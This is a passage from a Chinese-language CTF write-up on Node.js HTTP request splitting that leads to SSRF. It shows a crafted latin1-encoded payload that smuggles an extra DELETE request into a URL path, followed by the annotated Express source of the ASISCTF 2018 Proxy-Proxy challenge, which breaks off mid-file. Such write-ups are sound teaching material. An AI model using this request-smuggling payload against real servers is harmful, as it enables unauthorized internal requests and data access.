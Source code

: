 ~~真是Node.js的美妙特性~~

对这样一个账号再次进行DELETE请求时则会这样

```
console.log(Buffer.from('DELETE /account/f9f9eebb05ef4b819b0467cc5ddd3b4a/email/x@̠ňɔɔɐį1̮1č̊č̊ɇͅɔ̠įaccountįf9f9eebb05ef4b819b0467cc5ddd3b4aįsessions̠ňɔɔɐį1̮1č̊č̊.cc', 'latin1').toString())
```

![image-20211205210133004](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211205210133004.png)

SSRF来了

## [ASISCTF final 2018]Proxy-Proxy

简单审了一下代码，标记到注释中了

```js
const express = require('express');
const fs = require('fs');
const path = require('path');
const body_parser = require('body-parser');
const md5 = require('md5');
const http = require('http');
var ip = require("ip");
require('x-date');
var server_ip = ip.address()
const server = express();
server.use(body_parser.urlencoded({
    extended: true
}));
server.use(express.static('public'))
server.set('views', path.join(__dirname, 'views'));
server.set('view engine', 'jade');
server.listen(5000)
server.get('/', function(request, result) {
    result.render('index');
    result.end()
})
function check_endpoint(available_endpoints, endpoint) {
    for (i of available_endpoints) {
        if (endpoint.indexOf(i) == 0) {
            return true;
        }
    }
    return false;
}
fs.readFile('flag.dat', 'utf8', function(err, contents) {
    if (err) {
        throw err;
    }
    flag = contents;
})
server.get('/proxy/internal_website/:page', function(request, result) {
    var available_endpoints = ['public_notes', 'public_links', 'source_code']
    var page = request.params.page
    result.setHeader('X-Node-js-Version', 'v8.12.0')	// 版本提示
    result.setHeader('X-Express-Version', 'v4.16.3')
    if (page.toLowerCase().includes('flag')) {  // 先转小写再判断 不能有flag
        result.sendStatus(403)
        result.end()
    } else if (!check_endpoint(available_endpoints, page)) {    // 白名单审查
        result.render('available_endpoints', {
            endpoints: JSON.stringify(available_endpoints)
        })
        result.end()
```